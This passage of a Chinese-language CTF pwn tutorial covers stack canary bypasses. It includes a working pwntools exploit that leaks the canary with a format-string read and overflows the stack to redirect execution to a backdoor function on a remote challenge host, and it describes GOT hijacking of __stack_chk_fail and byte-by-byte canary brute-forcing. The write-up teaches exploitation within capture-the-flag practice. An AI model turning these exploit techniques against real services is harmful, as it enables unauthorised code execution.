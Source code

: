 ![image-20220201112333285](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f78d10802d588a1ada695c2ed591c25842899fef.png)

还存在一个后门函数：

![image-20220201112534968](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-ece1c6b4f232a232df610a6e339e40dd9bc32055.png)

##### 思路：

先利用上一节所讲的格式化字符串泄露出canary的值，再利用栈溢出漏洞带上canary覆盖返回地址为后门函数。

##### EXP：

```python
from pwn import *
p=remote('111.200.241.244',59339)

p.recvuntil('3. Exit the battle')
p.sendline('2')

p.sendline('%23$p')

p.recvuntil('0x')
canary=int(p.recv(16),16)
success('canary: ' + hex(canary))

backdoor=0x4008da
payload='a'*0x88 + p64(canary) +'a' * 8 + p64(backdoor)
p.recvuntil('3. Exit the battle')
p.sendline('1')
p.sendline(payload)

p.interactive()
```

### 2.劫持\_stack\_chk\_fail函数

已知 canary 失败的处理逻辑会进入到 `__stack_chk_fail` 函数，`__stack_chk_fail` 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。

#### 例题：

**ZCTF2017 —Login**

演示参考：<https://futurehacker.tech/archives/pwn-zctf2017-login>

### 3.爆破canary

对于 canary，虽然每次进程重启后的 Canary 不同，但是同一个进程中的不同线程的 canary 是相同的， 并且通过 fork 函数创建的子进程的 canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 canary 爆破出来。

#### 例题：

**2017湖湘杯—pwn100**

![image-20220201114714626](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-a80ac78c68c53976663d2953df0848eb3bfdff1d.png)
